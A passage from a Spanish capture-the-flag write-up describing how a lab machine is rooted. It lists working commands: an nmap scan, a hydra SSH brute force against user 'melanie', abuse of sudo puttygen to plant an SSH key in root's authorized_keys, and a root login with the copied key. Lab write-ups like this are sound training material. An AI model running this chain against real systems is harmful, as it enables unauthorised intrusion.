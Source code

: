 Desde aquí nuevamente muchas gracias `@murrusko` y en especial a los creadores por permitir el intercambio de pistas en la comunidad de discord.

Nota: agradecimiento también a `@suraxddq` quien fue el primer usuario en resolver esta maquina, nos dio de pistas que leamos el man de ssh, que pensemos en que cosas se necesitaba, ¿cual era el requisito de conexión?

----

# PWNED

Al final la solución fue crear una nueva clave `rsa` para el usuario `melanie`:

`puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id`

Y ahora un paso muy importante que a mi me estaba faltando y es el secreto para la solución de esta maquina; que es nada mas y nada menos que añadir esta nueva clave creada al `authorized keys` de la siguiente forma:

`puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys`

Entonces ya tengo una clave `rsa` nueva para el usuario añadida de forma correcta, el siguiente paso seria, copiar esta clave en el usuario root y lo hago así:

`sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/id`

Luego como se realizo con `melanie` debo añadir esta nueva clave de root al `authorized_keys` de la siguiente forma:

`sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh`

Con eso solo me toca descargar en mi maquina local, la clave `rsa` creada:

`scp melanie@192.168.1.11:/home/melanie/.ssh/id .`

Ya teniendo esta clave en mi maquina, solo debo hacer uso de ella para conectarme con el usuario root por ssh a la maquina objetivo.

   `ssh -i id root@192.168.1.11`

¡Y listo! Con eso se consigue el acceso root de esta maquina, me resta hacer un `cat` de la flag y objetivo completado.


# Bandera(s)

[!FLAG] 
  - `User-flag{VGUgdG9jYSBvYnRlbmVyIGEgdGkgbGEgZmxhZw==}`
  - `Root-flag{QXF1aSBubyB2YXMgYSBlbmNvbnRyYXIgbmFkYQ==}`


# Comandos

[!IMPORTANT] Resumen de comandos utilizados
  - `nmap -p- --open -sC -sS -sV --min-rate=5000 -n -vvv -Pn 192.168.1.11`
  - `hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.11 -F`
  - `sudo -l`
  - `puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id`
  - `puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys`
  - `sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/id`
  - `sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh`
  - `scp melanie@192.168.1.11:/home/melanie/.ssh/id .`
  - `ssh -i id root@192.168.1.11`
